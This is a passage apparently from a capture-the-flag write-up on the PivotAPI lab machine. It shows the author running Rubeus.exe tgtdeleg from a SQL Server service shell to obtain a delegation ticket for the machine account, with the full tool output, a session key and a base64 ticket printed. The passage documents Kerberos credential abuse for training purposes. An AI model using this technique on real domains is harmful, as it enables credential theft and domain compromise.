 Now I’ll use `Rubeus.exe` to first get a fake delegation ticket for the machine account:

```

CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\ProgramData> .\Rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0 

[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/PivotAPI.LicorDeBellota.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: 6g2Dq2qtY+Nv3ER+m552rbUHenFM3DxlEdB/yjj3ssg=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFeDCCBXSgAwIBBaEDAgEWooIEajCCBGZhggRiMIIEXqADAgEFoRQbEkxJQ09SREVCRUxMT1RBLkhUQqInMCWgAwIBAqEeMBwbBmtyYnRndBsSTElDT1JERUJFTExPVEEuSFRCo4IEFjCCBBKgAwIBEqEDAgECooIEBASCBABJUJ+3dI0WAc0Nc/skPSgNY06KqGmwSNChX7FUMhYv+0MfoPwC4fKCbSO0nnDq1/RDQaUNRcqWl1D1l
dEObdHU6YyV0ebo6pZ8i4suKjXTX5M/gVz4ONSE4x05HHLSKI1wbmX7lWemSd5vzBmd9pgvp8D8CzN270ncW/c+gbcdv9OJ3EFNChci54AoUm1GbTlV4VJk8bLeTaSG9TmtQc/7pzXxcjBXbQ2hyfh4RaYFfg2LVmPv2x2Dr1/WhhcEaL/TrnIaWnhxZs6kIfmiHqh9c3ZGEgeuW3I9fwd+mUMCJqKOXSCdtgBUh70E+xHasNCqv/WCIfbb/II9
SHdDCI8Gj7eeRyeL+JY/YOXnHEtDtBcOHOmRHl+pTSRp3gDJyvpv5a7jdZD/4NDnlXtLOTPogKl90NRqpl5TyZShaCT8zso1yOGShy9e62LPTIpGGdEn+0QkilTu6SnKMvFP8peypzXCSHdbigKxrXnCpOlih0cS3RFvOS0l/NWiu2rz1Jf9OK4eStuDaE2MhP+58kozQRyAhKCAVQw02V9g+r9jR+3xe96mKHG00ZPwLRgpRVfcHypgfWy9Hqr
MtvO8tZpsbpd/+r32bGgce2aVtZp0rgq3NK1aD/ORE4V6AmynfgsQ+S4d53Dc76511AVtS1t11E6I1ilJVcMH+KnxGxOHi578pKSWHNPoUE5aQ58alCYIbljJcM/En16v+r+xM/rr8n9o483ma8b5KBuye5LZ1UB8IwlXSQSZbnB5y0cunIYgdfeBfBBB82ZWQcOx+kDyJIC/LkjBLxdpvPY8iqgk5GSn1KAQAu4lsFbgoRgT0BwhaueURGWNGy
gRyNe7tPxUp3WJCTrItYEG+JHcERBorY17wvPZ24QcCEjf26k1PiedA0LplVSVzjW+c8dka3JZfsB0hC5HAJzairIt5yFIUy+iuFSNC3aRYUfxXrtGJYNmfwjHsWiUX3sFBUTnSmwZIqB9dgE175fto4C9EEjdOGtQBKHde9Y8foxEJaosVg6XTHNPpft5hmly0uQlEuVFIBOEbMaZ/NfJ7frBF/rMrdR8w2ZLp2+F6A/Akww+5TukENgPCszCL
P7Y70VP4FXVK34r0JnEg4E8OoMs45iFN3eT9PU/kwNRCthxPx9xKvJd6cT9tzS8x9DbODLTbwhWrVIgTYXk6Fdlh/ogJXOd/DyF6ied0JEmy1znWnLwV2Vf+/ERnKEe0OJup3Pvsy8eNygMLBSMZ50K52Mr0oxplFP4rYXuR1hEoqgXJM++C+R7w4SUcNdtq7VcTpZkphV55YG6YugAaCOvrkwh66vgu0gQ39wrl23aWmli93cGdYC7+v4LzlXm
qu5j15djwxPFo4H5MIH2oAMCAQCige4Eget9gegwgeWggeIwgd8wgdygKzApoAMCARKhIgQgaAtQsYwuKV21JRM2y619pvqa/Kam3r7S+Pi4vd6wVHChFBsSTElDT1JERUJFTExPVEEuSFRCohYwFKADAgEBoQ0wCxsJUElWT1RBUEkkowcDBQBgoQAApREYDzIwMjExMTA3MjExODE5WqYRGA8yMDIxMTEwODA3MTgxOVqnERgPMjAyMTExMTQ
yMTE4MTlaqBQbEkxJQ09SREVCRUxMT1RBLkhUQqknMCWgAwIBAqEeMBwbBmtyYnRndBsSTElDT1JERUJFTExPVEEuSFRC

```
